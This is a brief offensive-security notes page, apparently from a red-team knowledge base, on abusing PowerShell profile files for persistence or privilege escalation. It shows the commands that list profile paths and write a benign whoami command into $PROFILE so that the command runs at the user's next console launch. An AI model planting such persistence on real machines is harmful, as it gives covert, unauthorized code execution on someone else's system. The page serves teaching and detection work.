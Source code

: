 # Powershell Profile Persistence

It's possible to use powershell profiles for persistence and/or privilege escalation.

## Execution

There are four places you can abuse the powershell profile, depending on the privileges you have:

```csharp
$PROFILE | select *
```

![](../../.gitbook/assets/image%20%28138%29.png)

Let's add the code to a `$profile` variable \(that expands to the current user's profile file\) that will get executed the next time the compromised user launches a powershell console:

{% code title="attacker@target" %}
```csharp
echo "whoami > c:\temp\whoami.txt" > $PROFILE
cat $PROFILE
```
{% endcode %}

![](../../.gitbook/assets/image%20%2839%29.png)

Once the compromised user launches powershell, our code gets executed:

![](../../.gitbook/assets/image%20%28227%29.png)

{% hint style="warning" %}
If the user is not using profiles, the technique will stick out immediately due to the "loading personal and system profiles..." message at the top.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/techniques/T1504/" %}

